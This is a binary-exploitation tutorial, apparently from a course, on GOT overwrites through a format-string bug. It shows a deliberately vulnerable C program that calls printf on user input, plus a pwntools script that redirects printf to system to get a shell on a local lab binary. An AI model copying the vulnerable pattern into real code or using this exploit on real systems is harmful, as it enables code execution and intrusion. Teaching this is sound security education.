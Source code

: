 # Exploiting a GOT overwrite

## Source

{% file src="../../../.gitbook/assets/got-overwrite-32.zip" caption="GOT Overwrite - 32-bit" %}

The very simplest of possible GOT-overwrite binaries.

```c
#include <stdio.h>

void vuln() {
    char buffer[300];
    
    while(1) {
        fgets(buffer, sizeof(buffer), stdin);

        printf(buffer);
        puts("");
    }
}

int main() {
    vuln();

    return 0;
}
```

Infinite loop which takes in your input and prints it out to you using `printf` - no buffer overflow, just format string. Let's assume ASLR is disabled - have a go yourself :\)

## Exploitation

As per usual, set it all up

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()
```

Now, to do the `%n` overwrite, we need to find the offset until we start reading the buffer.

```text
$ ./got_overwrite 

%p %p %p %p %p %p
0x12c 0xf7fa7580 0x8049191 0x340 0x25207025 0x70252070
```

Looks like it's the 5th.

```text
$./got_overwrite
 
%5$p
0x70243525
```

Yes it is!

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.interactive()
```

Now, next time `printf` gets called on your input it'll actually be `system`!

If the buffer is restrictive, you can always send `/bin/bash` to get you into a shell and run longer commands.

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## 64-bit

You'll never guess. That's right! You can do this one by yourself.

{% file src="../../../.gitbook/assets/got-overwrite-64.zip" caption="GOT Overwrite - 64-bit" %}

## ASLR Enabled

If you want an additional challenge, re-enable ASLR and do the 32-bit and 64-bit exploits again; you'll have to leverage what we've covered previously.

{% file src="../../../.gitbook/assets/got-overwrite-aslr.zip" caption="GOT Overwrite - ASLR Exploit Scripts" %}

